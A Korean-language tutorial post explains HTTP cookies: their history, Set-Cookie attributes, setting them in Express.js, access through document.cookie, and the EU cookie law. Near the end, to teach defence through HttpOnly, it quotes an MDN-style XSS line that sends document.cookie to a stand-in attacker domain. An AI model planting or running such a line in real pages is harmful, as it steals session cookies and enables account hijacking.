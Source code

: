 # Cookie

우리는 집에서 웹서비스를 이용할 때 팝업창에 '1주일간 보지 않기'나 '로그인 유지'와 같은 기능을 마주치곤 합니다. 또는 웹사이트의 테마를 다크모드로 변경했는데 브라우저를 껐다 켜도 유지되는 매우 신기한 현상을 마주하곤 합니다. 이 신비로운 현상의 원리가 궁금하여 조사해보니 이 기능의 뒤에는 `Cookie`라는 기술이 숨어있었습니다.



![image-20220828211302320](Web Stroage.assets/image-20220828211302320.png)

(https://www.sony.net/ 소니 공식 홈페이지 접속 시 나타나는 쿠키 허용 팝업)

 웹 사이트, 특히 해외 웹사이트를 이용하시다 보면 위와 같이 '쿠키를 허가해주세요'라는 문구를 볼 수 있습니다. `쿠키`가 뭘까요? 뭐길래 이렇게 허가를 요청하면서 그들은 얻고 싶어 할까요?

`HTTP Cookie`란 인터넷 사용자가 어떤 웹사이트를 방문할 경우 사용자의 웹 브라우저를 통해 인터넷 사용자의 컴퓨터, 혹은 다른 기기에 설치되는 작은 기록 정보 파일을 일컫습니다. `쿠키`, `웹 쿠키`, `브라우저 쿠키`라고도 부릅니다. 이 기록 파일에 담긴 정보는 인터넷 사용자가 같은 웹사이트를 방문할 때마다 읽히고 수시로 새로운 정보로 바뀝니다. `쿠키`는 넷스케이프의 개발자였던 루 몬틀리Lou Montulli가 고안하였습니다. 쿠키라는 명칭은 유닉스 개발자들이 사용한, 프로그램이 수신 후 변경하지 않은 채로 반환하는 데이터의 패킷을 의미하는 `매직 쿠키`라는 용어에서 비롯되었지요.

쿠키는 소프트웨어는 아니라서 바이러스를 옮길 순 없지만, `스파이웨어`를 통해 유저의 브라우징 행동을 추적하거나, 쿠키를 훔쳐 해당 사용자의 웹 계정을 해킹할 수 있으니 웹 보안에서 많은 신경이 필요한 정보입니다.



쿠키는 1. 이름 / 2. 값 / 3. 0개 이상의 속성(이름/값의 쌍)으로 구성됩니다. 여기서 속성은 쿠키의 만료 기간, 도메인, `Secure`/`HttpOnly`등의 플래그 정보를 저장합니다.

쿠키를 직접 확인해보고 싶으시다면 웹 사이트 내에서 개발자도구(F12)의 `Application` 탭에서 직접 찾아볼 수 있습니다.

![image-20220828212345795](Web Stroage.assets/image-20220828212345795.png)

(네이버 홈에서 확인할 수 있는 쿠키 정보들)



쿠키는 주로 다음의 세 가지 목적을 위해 사용됩니다.

1. 세션 관리: 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
2. 개인화: 사용자 선호, 테마 등의 세팅
3. 트래킹: 사용자 행동을 기록하고 분석하는 용도

이렇듯 쿠키는 개인에 관한 많은 정보를 담고 있습니다. 특히 로그인 정보나 행동 기록 정보는 민감한 개인 정보이기 때문에 웹 서비스가 이를 수집 할 때는 사용자의 허가를 받아야 하는 것입니다.

 해외 서비스를 이용할 때 이 '쿠키 허가'를 더 자주 볼 수 있는 이유는 EU에는 쿠키법이 있기 때문입니다. `Cookie Law` / `Cookie Directive`는 EU 회원국에서의 쿠키정보 수집 시 사전 고지 및 동의 의무에 관해 규정하고 있습니다. 이 쿠키법은 2011년 5월 25일 발효되었고, 이후 EU 회원국들은 자국의 상황에 맞추어 쿠키법을 수정 및 적용해 왔습니다. 따라서 해외 사이트 특히 유럽이나 영미권의 국가 사이트에서 '쿠키 허가' 팝업을 더 자주 볼 수 있는 것이죠.



이번에는 쿠키를 직접 만들어보겠습니다.

`HTTP Protocol`의 `Set-Cookie` 헤더의 형태는 아래와 같습니다.

```
Set-Cookie: name=value [; expires=date] [; path=path] [; domain=domain] [; secure]
```

* `name=value`: 필수 속성입니다. 이름과 값 모두 큰따옴표로 감싸지 않은 세미콜론, 쉼표, 등호, 공백을 포함하지 않는 문자열이어야 합니다.
* `expires`: 선택 속성입니다. 쿠키의 만료일을 나타냅니다. 날짜의 형식은 `요일, DD-MM-YY HH:MM:SS GMT`입니다. 사용할 수 있는 타임존은 GMT 뿐이고 날짜 요소 간 구분자는 `-`를 사용합니다. 쿠키에 `expires`를 명시하지 않으면 `세션 쿠키`가 됩니다. 이에 대해서는 후에 쿠키의 라이플 사이클에 대해 다루면서 말씀드리겠습니다.
* `domain`: 선택 속성입니다. 브라우저는 이 속성에 기술된 도메인을 사용하는 서버 호스트에만 쿠키를 전송합니다. 도메인이 명시돼 있지 않으면 `Set-Cookie` 응답을 생성한 서버의 호스트를 기본값으로 사용합니다.
* `path`: 선택 속성입니다. `path` 속성에 기술된 값이 URL 경로의 앞부분과 일치하면 쿠키를 전송합니다. 만약 경로를 명시하지 않으면 Set-Cookie 응답을 전달하는 URL 의 경로가 사용됩니다.
* `secure`: 선택 속성입니다. 이 속성이 포함돼 있으면 쿠키는 HTTP가 SSL 보안 연결을 사용할 때만 쿠키를 전송합니다.
  * `SSL`: Secure Sockets Layer 암호화 기반 인터넷 보안 프로토콜, SSL을 사용하는 웹사이트의 URL에는 `HTTP` 대신 `HTTPS`가 사용됩니다.

Express.js 를 사용하여 직접 쿠키를 브라우저에 저장해보겠습니다.

```js
app.get("/cookie", function (req: Request, res: Response) {
  console.log("Cookies: ", req.cookies);
  res.cookie("cookiekey", "cookie_value");
  res.send("");
});
```

![image-20220828230038901](Web Stroage.assets/image-20220828230038901.png)



`/cookie` URL로 접속한 결과 성공적으로 쿠키가 저장된 것을 확인할 수 있습니다. 또한 `Domain`, `Path`, `Expires`등의 속성 값이 자동으로 설정된 것도 확인할 수 있습니다.

또한 해당 URL로 처음 접속했을 때는 위 코드에서의 `req.cookies`는 `Cookies:  [Object: null prototype] {}`로 빈 객체를 나타냈습니다. 하지만 이후 두 번째 접속 이후부터는 `Cookies:  { cookiekey: 'cookie_value' }`로 해당 쿠키가 클라이언트 요청의 헤더로 같이 왔음을 알 수 있습니다.

더욱 자세한 쿠키 설정을 하고 싶다면 위 코드의 `res.cookie`의 인자 값을

```JS
res.cookie('name', 'tobi', { domain: '.example.com', path: '/admin', secure: true });
res.cookie('rememberme', '1', { expires: new Date(Date.now() + 900000), httpOnly: true });
```

위와 같은 방식을 예시로 하여 바꾸어 이용할 수 있습니다.

여기서 `expires: new Date()` 부분을 통해 쿠키의 만료 기간을 설정할 수 있습니다. 이 부분을 명시하지 않으면 세션이 끝날 때 삭제되는 `세션 쿠키`가 생성됩니다. `세션`이란 간단히 말해 클라이언트와 서버가 연결되어 있는 기간을 의미합니다. 한마디로 **브라우저가 종료될 때** 삭제됩니다. 반대로 만료 기간을 설정하면 `영속적 쿠키`가 생성됩니다. 속성에 명시된 날짜에 삭제되거나, `Max-Age` 속성에 명시된 기간 이후에 자동으로 삭제됩니다.



자바스크립트의 `document.cookie` 프로퍼티를 이용하여 부라우저에서 쿠키에 접근할 수 있습니다. `document.cookie`는 현재 브라우저의 쿠키를 나타냅니다.

![image-20220831020456544](Web Stroage.assets/image-20220831020456544.png)

자바스크립트에서 이 프로퍼티를 이용해 기존 있던 쿠키의 값을 갱신시킬 수도 있습니다.

![image-20220831020548803](Web Stroage.assets/image-20220831020548803-1879149.png)

물론 만료일이나 경로와 같은 옵션값들도 설정할 수 있습니다.

![image-20220831020729152](Web Stroage.assets/image-20220831020729152.png)



하지만 자바스크립트에서 이용 가능한 쿠키들은 XSS를 통해 감청될 수 있으므로 주의가 필요합니다. 쿠키는 주로 웹 어플리케이션에서 인증된 세션을 식별하기 위해 사용됩니다. 따라서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다. 쿠키를 가로채는 일반적인 방법 중 하나가 어플리케이션 내 XSS 취약점을 이용하는 것입니다.

XSS는 Cross-site Scripting 의 약자로 악의적인 사용자가 공격하려는 사이트에 스크립트를 넣는 기법을 말합니다. 공격을 통해 사이트에 접속하면 삽입된 코드를 실행하여 의도치 않은 행동을 수행시키거나 쿠키나 세션 토큰 등 민감한 정보를 탈취하는 해킹이죠. MDN 문서에서는 XSS 공격을 통한 쿠키 사용에 대한 예시를 다음과 같이 보여줍니다.

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

위와 같은 코드를 웹 어플리케이션 내의 콘솔에서 실행하게 되면 의도치 않게 유저의 정보가 빠져나가게 되는 것입니다.

따라서 `HttpOnly` 쿠키 속성을 통해 자바스크립트를 이용하여 쿠키 값에 접근하는 것을 막아 XSS 공격을 미연에 방지할 수 있습니다. 따라서 자바스크립트로 쿠키를 제어하는 것은 좋은 생각이 아닌 것입니다.



지금까지 웹 사이트에서 사용자의 인증과 개인화를 지속적으로 유지해주는 `쿠키`에 대해 알아보았습니다. 쿠키를 사용함으로써 설정이나 인증 정보를 유지하여 편리함을 얻을 수 있습니다. 하지만 편리함의 이면에 XSS 공격과 같은 사용에 주의해야 할 점 또한 존재합니다. 평소에도 공공장소에서 로그인을 하게된다면 브라우저에서 쿠키 저장을 의도적으로 막아주는 `시크릿 모드`를 사용하거나 이용을 마친 뒤 쿠키를 의도적으로 삭제해주는 습관을 통해 개인정보를 갈취당하는 상황을 미연에 방지시킬 수 있겠다는 말씀을 드리며 글 마칩니다. 읽어주셔서 감사합니다 :)



